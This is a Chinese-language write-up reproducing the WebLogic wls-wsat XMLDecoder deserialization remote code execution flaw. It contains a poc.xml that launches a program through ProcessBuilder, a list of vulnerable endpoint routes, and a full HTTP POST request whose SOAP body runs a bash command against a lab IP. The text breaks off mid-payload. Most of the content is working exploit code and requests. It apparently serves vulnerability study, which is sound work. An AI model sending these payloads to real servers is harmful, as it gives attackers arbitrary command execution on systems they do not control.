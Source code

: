 poc.xml

```java
&lt;java version=&#34;1.4.0&#34; class=&#34;java.beans.XMLDecoder&#34;&gt;
    &lt;void class=&#34;java.lang.ProcessBuilder&#34;&gt;
        &lt;array class=&#34;java.lang.String&#34; length=&#34;1&#34;&gt;
            &lt;void index=&#34;0&#34;&gt;
                &lt;string&gt;Calc&lt;/string&gt;
            &lt;/void&gt;
        &lt;/array&gt;
        &lt;void method=&#34;start&#34;/&gt;&lt;/void&gt;
&lt;/java&gt;
```

解析这个xml，相当于用 `java.lang.ProcessBuilder` 来 rce，相当于执行以下代码

```
String[] cmd = new String[1];
cmd[0] = &#34;Calc&#34;;
new ProcessBuilder(cmd).start();
```

#### 漏洞复现

下面几个路由都能解析 xml

```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

POST 请求包

```http
POST /wls-wsat/RegistrationRequesterPortType11 HTTP/1.1
Host: 192.168.2.128:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml&#43;xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: ADMINCONSOLESESSION=pG6NyP1TRTBQpCtbTcGdmT4FHw76PxC1nn6WrKbLVGhQ1LtxJLJv!441898134
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: text/xml
Content-Length: 680

&lt;soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34;&gt; &lt;soapenv:Header&gt;  
&lt;work:WorkContext xmlns:work=&#34;http://bea.com/2004/06/soap/workarea/&#34;&gt;  
&lt;java version=&#34;1.4.0&#34; class=&#34;java.beans.XMLDecoder&#34;&gt;  
&lt;void class=&#34;java.lang.ProcessBuilder&#34;&gt;  
&lt;array class=&#34;java.lang.String&#34; length=&#34;3&#34;&gt;  
&lt;void index=&#34;0&#34;&gt;  
&lt;string&gt;/bin/bash&lt;/string&gt;  
&lt;/void&gt;  
&lt;void index=&#34;1&#34;&gt;  
&lt;string&gt;-c&lt;/string&gt;  
&lt;/void&gt;  
&lt;void index=&#34;2&#34;&gt;  
&lt;string&gt;echo &#34;/wls-wsat/RegistrationRequesterPortType11&#34;&gt;&gt;/tmp/eeee&lt;/string&gt;  
```